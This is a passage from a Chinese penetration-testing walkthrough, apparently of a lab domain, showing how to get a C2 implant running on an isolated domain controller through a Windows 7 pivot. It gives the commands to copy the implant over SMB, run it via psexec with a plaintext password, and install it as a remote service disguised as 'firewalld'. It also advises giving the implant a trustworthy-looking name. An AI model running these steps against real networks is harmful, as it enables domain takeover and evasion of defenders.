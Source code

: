       ![image-20230918021429393](https://p.ipic.vip/brbc9r.png)

    - `systeminfo` 查看系统信息

      > 确认已经获取域控主机权限

      ![image-20230918021730058](https://p.ipic.vip/7u1xym.png)



## 上线域控主机

#### 1. 域控不出网破局

- 将win7设置为中转

  ![image-20230918022142880](https://p.ipic.vip/77pzwm.png)

  查看event log: 已经有tcp session在该端口工作

  ![image-20230918022221027](https://p.ipic.vip/stjwh8.png)

  - 生成全阶段马， 我保存到了c2客户端的桌面，名称为big_update.exe（随便你自己取名，实战最好起那看起来比较”靠谱“的exe名称）

    ![image-20230918023143906](https://p.ipic.vip/yyofjg.png)

  - 上传马 `upload`，然后弹出的界面选择刚生成的马

    ![image-20230920223925926](https://p.ipic.vip/gh7pwt.png)

  - 拷贝到域控主机

    ```shell
    shell copy big_update.exe \\192.168.111.130\c$\Users
    ```

#### 2. 上线方式

- 第一种方式：使用代理连接终端执行我们上传的马

  ```
  proxychains4 python3 psexec.py lulu:Qq123456..@192.168.111.130
  ```

  ![image-20230918123619918](https://p.ipic.vip/fpi4nv.png)

  域控主机成功上线![image-20230918123712471](https://p.ipic.vip/o4ip8u.png)

  

- 第二种方式：创建服务

  ```shell
  # 在域控创建服务
  shell sc \\192.168.111.130 create firewalld binpath= "C:/Users/cmdc.exe"
  
  # 查询服务是否存在
  shell sc \\192.168.111.130 query firewalld
  
  # 启动服务
  shell sc \\192.168.111.130 start firewalld
  ```

  

- 第三种方式：利用漏洞 (ms14-068)打进去